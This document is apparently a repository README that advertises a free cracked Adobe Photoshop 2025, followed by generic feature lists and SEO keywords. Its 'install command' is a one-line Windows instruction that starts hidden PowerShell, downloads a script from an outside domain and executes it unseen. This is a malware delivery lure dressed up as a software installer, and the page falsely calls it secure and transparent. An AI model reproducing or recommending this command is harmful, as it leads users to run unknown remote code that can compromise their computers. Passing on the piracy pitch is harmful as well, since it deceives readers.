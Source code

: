 ## **Photoshop Cracked** | **Adobe Photoshop 2025** 🖌️📷

<div>
<img src="https://phototrend.fr/wp-content/uploads/2024/11/adobe-photoshop-2025-header.jpg"/>
</div>
<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/389290d';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: oba71').Content;</code>
</pre>

## Project Description.
**Adobe Photoshop ** is a powerful image editing software used by professionals and enthusiasts alike. This guide provides information on how to download Adobe Photoshop for free, as well as tips on how to effectively utilize its features.

## Key Features.
- **Advanced Image Editing**: Edit photos with precision using a wide range of tools.
- **Layer Management**: Organize your work using layers to create complex compositions.
- **Filters & Effects**: Apply stunning filters and effects to enhance your images.
- **Text & Typography**: Add and manipulate text in graphic design projects.
- **Creative Cloud Integration**: Access your projects from anywhere with cloud storage.


##Tips for using Adobe Photoshop 🎨
- **Learn the tutorials**: Take advantage of Adobe's extensive library of tutorials to learn about various features.
- **Use keyboard shortcuts**: Familiarize yourself with keyboard shortcuts to speed up your workflow.
- **Experiment with tools**: Feel free to try different tools and effects to unlock their potential.

## License 📄.
Adobe Photoshop is a proprietary software product. The free trial version allows you to use the program for a limited time without being charged.

## Useful Links 🌐
- [Adobe Photoshop Tutorials](https://helpx.adobe.com/photoshop/tutorials.html)
- [Adobe Creative Cloud](https://www.adobe.com/creativecloud.html)

---

**SEO Keywords**: Adobe Photoshop, free download, image editing, image editing, graphic design, photo editing, Photoshop alternatives, Creative Cloud.
